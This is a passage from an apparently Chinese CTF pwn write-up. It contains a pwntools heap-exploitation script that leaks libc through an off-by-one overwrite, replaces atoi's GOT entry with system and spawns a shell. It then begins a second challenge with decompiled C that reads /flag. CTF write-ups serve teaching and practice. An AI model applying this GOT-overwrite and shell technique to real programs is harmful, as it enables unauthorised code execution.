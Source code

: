 ```

def display(index):
    io.sendlineafter('Your choice :', str(3))
    io.sendlineafter('Index :', str(index))
    io.recvuntil('Content : ')


def delete(index):
    io.sendlineafter('Your choice :', str(4))
    io.sendlineafter('Index :', str(index))

add(0x18, 'aaaa') # 0
add(0x18, 'bbbb') # 1

edit(0, 'a' * 0x18 + '\x41')

delete(1)

payload = 'a' * 0x18 + p64(0x21) + p64(0x38) + p64(elf.got['atoi'])
add(0x38, payload) #,2

display(1)
atoi_address = u64(io.recv(6).ljust(8, '\x00'))
print(hex(atoi_address))

libc_base = atoi_address - libc.symbols['atoi']
print('libc_base -&gt; ' + hex(libc_base))

edit(1, p64(libc_base + libc.symbols['system']))

io.sendlineafter('Your choice :', '/bin/sh\x00')
io.interactive()
```



## 0x0e gyctf_2020_some_thing_exceting

我们可以看到在程序刚开始时，会读取根目录下的flag文件，将其写入bss段的变量中，没有该文件则退出程序。

```
unsigned __int64 sub_400896()
`{`
  FILE *stream; // [rsp+0h] [rbp-10h]
  unsigned __int64 v2; // [rsp+8h] [rbp-8h]

  v2 = __readfsqword(0x28u);
  setbuf(stdin, 0LL);
  setbuf(stdout, 0LL);
  stream = fopen("/flag", "r");
  if ( !stream )
  `{`
    puts("Emmmmmm!Maybe you want Fool me!");
    exit(0);
  `}`
  byte_6020A0 = 96;
  fgets(flag, 45, stream);
  return __readfsqword(0x28u) ^ v2;
`}`
```
